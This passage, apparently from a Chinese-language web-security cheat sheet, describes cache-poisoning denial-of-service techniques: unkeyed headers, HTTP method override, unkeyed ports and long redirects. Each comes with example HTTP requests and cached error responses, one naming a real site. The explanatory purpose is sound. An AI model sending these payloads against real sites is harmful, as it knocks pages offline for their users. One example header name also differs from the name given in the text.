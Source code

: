     ```http
    GET /anas/repos HTTP/2
    Host: redacted.com
    :
    ```

    ```http
    GET /anas/repos HTTP/2
    Host: redacted.com
    Content-Type: HelloWorld
    ```

3. **未键入的头部**：某些网站在请求中看到特定头部（如`X-Amz-Website-Location-Redirect`）时，会返回错误状态码，且可能被缓存。
    ```http
    GET /app.js HTTP/2
    Host: redacted.com
    X-Amz-Website-Location-Redirect: someThing

    HTTP/2 403 Forbidden
    Cache: hit

    Invalid Header
    ```

4. **HTTP 方法覆盖攻击（HTTP Method Override）**：利用头部（如`X-HTTP-Method-Override`）更改HTTP方法，导致源服务器返回错误响应，并被缓存。X-HTTP-Method-Override 并非标准的 HTTP 请求头，但可能会有效。
    ```http
    GET /blogs HTTP/1.1
    Host: redacted.com
    HTTP-Method-Override: POST
    ```

5. **未键入端口**：在`Host`头中添加未使用的端口，导致源服务器返回重定向到无效端口的响应，且被缓存。
    ```http
    GET /index.html HTTP/1.1
    Host: redacted.com:1

    HTTP/1.1 301 Moved Permanently
    Location: https://redacted.com:1/en/index.html
    Cache: miss
    ```


6. **长重定向 DoS**：构造一个包含非常长URL的重定向请求，导致源服务器返回错误响应，并被缓存。
    ```http
    GET /login?x=veryLongUrl HTTP/1.1
    Host: www.cloudflare.com

    HTTP/1.1 301 Moved Permanently
    Location: /login/?x=veryLongUrl
    Cache: hit

    GET /login/?x=veryLongUrl HTTP/1.1
    Host: www.cloudflare.com

    HTTP/1.1 414 Request-URI Too Large
    CF-Cache-Status: miss
    ```
